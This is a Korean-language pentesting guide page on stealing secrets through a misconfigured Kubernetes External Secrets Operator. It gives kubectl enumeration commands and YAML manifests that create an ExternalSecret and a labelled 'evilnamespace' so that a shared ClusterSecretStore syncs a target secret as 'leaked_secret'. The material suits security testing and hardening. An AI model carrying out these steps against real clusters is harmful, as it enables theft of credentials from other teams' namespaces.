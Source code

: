 # External Secret Operator

**이 페이지의 원래 저자는** [**Fares**](https://www.linkedin.com/in/fares-siala/)입니다.

이 페이지는 잘못 구성된 ESO 또는 ESO를 사용하여 비밀을 동기화하는 애플리케이션에서 비밀을 훔치는 방법에 대한 몇 가지 팁을 제공합니다.

## Disclaimer

아래에 보여지는 기술은 특정 조건이 충족될 때만 작동할 수 있습니다. 예를 들어, 이는 비밀이 귀하가 소유하거나 침해한 네임스페이스에서 동기화되도록 허용하는 요구 사항에 따라 달라집니다. 스스로 알아내야 합니다.

## Prerequisites

1. 네임스페이스에서 관리자 권한을 가진 kubernetes / openshift 클러스터에 대한 발판
2. 클러스터 수준에서 최소한 ExternalSecret에 대한 읽기 권한
3. ESO가 귀하의 비밀을 동기화할 수 있도록 필요한 레이블 / 주석 또는 그룹 구성원이 있는지 확인하십시오. 운이 좋다면 정의된 비밀을 자유롭게 훔칠 수 있습니다.

### Gathering information about existing ClusterSecretStore

이 리소스를 읽을 수 있는 충분한 권한이 있는 사용자가 있다고 가정하고, 먼저 기존 _**ClusterSecretStores**_를 나열하는 것부터 시작하십시오.
```sh
kubectl get ClusterSecretStore
```
### ExternalSecret 열거

ClusterSecretStore 이름이 _**mystore**_인 것을 발견했다고 가정해 보겠습니다. 관련된 externalsecret을 열거하는 것으로 계속 진행하십시오.
```sh
kubectl get externalsecret -A | grep mystore
```
_이 리소스는 네임스페이스 범위이므로, 어떤 네임스페이스를 찾아야 할지 모른다면 -A 옵션을 추가하여 모든 네임스페이스를 검색하세요._

정의된 externalsecret 목록을 얻어야 합니다. _**mysecret**_라는 externalsecret 객체가 _**mynamespace**_ 네임스페이스에 의해 정의되고 사용되고 있다고 가정해 보겠습니다. 그것이 어떤 종류의 비밀을 보유하고 있는지에 대한 정보를 조금 더 수집하세요.
```sh
kubectl get externalsecret myexternalsecret -n mynamespace -o yaml
```
### 조각 조립하기

여기에서 하나 또는 여러 개의 비밀 이름(Secret 리소스에 정의된 대로)을 얻을 수 있습니다. 다음과 유사한 출력을 얻을 수 있습니다:
```yaml
kind: ExternalSecret
metadata:
annotations:
...
labels:
...
spec:
data:
- remoteRef:
conversionStrategy: Default
decodingStrategy: None
key: SECRET_KEY
secretKey: SOME_PASSWORD
...
```
지금까지 우리는 다음을 얻었습니다:

- ClusterSecretStore의 이름
- ExternalSecret의 이름
- 비밀의 이름

이제 필요한 모든 것을 갖추었으므로, ExternalSecret을 생성할 수 있습니다(그리고 궁극적으로 새 비밀이 동기화되도록 필요한 전제 조건을 준수하기 위해 새 Namespace를 패치/생성할 수 있습니다):
```yaml
kind: ExternalSecret
metadata:
name: myexternalsecret
namespace: evilnamespace
spec:
data:
- remoteRef:
conversionStrategy: Default
decodingStrategy: None
key: SECRET_KEY
secretKey: SOME_PASSWORD
refreshInterval: 30s
secretStoreRef:
kind: ClusterSecretStore
name: mystore
target:
creationPolicy: Owner
deletionPolicy: Retain
name: leaked_secret
```

```yaml
kind: Namespace
metadata:
annotations:
required_annotation: value
other_required_annotation: other_value
labels:
required_label: somevalue
other_required_label: someothervalue
name: evilnamespace
```
몇 분 후, 동기화 조건이 충족되면 네임스페이스 내에서 유출된 비밀을 볼 수 있어야 합니다.
```sh
kubectl get secret leaked_secret -o yaml
```
## References

{{#ref}}
https://external-secrets.io/latest/
{{#endref}}

{{#ref}}
https://github.com/external-secrets/external-secrets
{{#endref}}
